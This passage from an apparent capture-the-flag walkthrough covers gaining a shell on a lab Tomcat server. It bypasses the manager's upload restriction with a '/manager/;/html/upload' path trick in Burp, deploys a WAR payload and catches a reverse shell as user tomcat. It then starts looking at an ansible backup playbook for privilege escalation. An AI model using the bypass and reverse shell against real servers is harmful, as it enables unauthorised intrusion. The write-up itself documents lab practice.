 Now, upload the war file to the Apache Tomcat manager deploy section, Intercept the request using BurpSuite and change the URL from ```/manager/html/upload?org.apache.catalina.filters.CSRF_NONCE=A84701CDC5F33874EC130407E83C5215``` to ```/manager/;/html/upload?org.apache.catalina.filters.CSRF_NONCE=A84701CDC5F33874EC130407E83C5215``` then forward the request:

![deploy.JPG](images/deploy.JPG)

The script will appear under the application section on the same page, click on it, and wait for the connection back:
 
![applications.JPG](images/applications.JPG)

And we get ```tomcat``` user shell:
```console
[*] Started reverse TCP handler on 10.10.14.14:9999 
[*] Command shell session 1 opened (10.10.14.14:9999 -> 10.10.10.250:47242) at 2021-08-12 03:32:42 +0300

whoami
tomcat

```

### User 2

By running ```ps -aux | grep luis``` we found the following process running:
```console
root        4235  0.0  0.0   2608   540 ?        Ss   11:52   0:00 /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
```

Let's look at the playbook ```yaml``` file ```/opt/backups/playbook/run.yml```:
```yaml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'